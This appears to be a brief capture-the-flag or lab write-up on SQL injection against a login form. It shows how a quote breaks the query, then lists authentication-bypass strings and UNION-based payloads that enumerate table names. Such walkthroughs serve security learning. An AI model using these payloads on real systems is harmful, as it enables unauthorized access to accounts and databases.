 Type the username and password casually for testing the result. Then you might get the result like the following.

```
username: abc
password: 123
SQL query: SELECT id FROM users WHERE password = '123' AND username = 'abc'
```

```
username: abc
password: 1'='1' #
SQL query: SELECT id FROM users WHERE password = '1'='1' #' AND username = 'abc'
```
So we know that we should let both username and password to be true. Here are some script for username and password.
```
' or 1 --
```
```
' or 1=1--
```
For more, you can search SQL cheatsheet.



<img width="1430" alt="截圖 2024-07-20 下午4 34 52" src="https://github.com/user-attachments/assets/a2f2a1be-628b-4e75-9ff3-a948ce174f9c">


```
-1' UNION SELECT 1, NULL, NULL;
```

<img width="1430" alt="截圖 2024-07-20 下午5 19 55" src="https://github.com/user-attachments/assets/21eedefe-4335-43f0-8b81-9ef5e4deb265">

<img width="1430" alt="截圖 2024-07-20 下午5 20 30" src="https://github.com/user-attachments/assets/108ba23e-756d-4667-b6bf-a2f8d37a3a94">


-1' UNION SELECT group_concat(tbl_name), NULL, NULL;
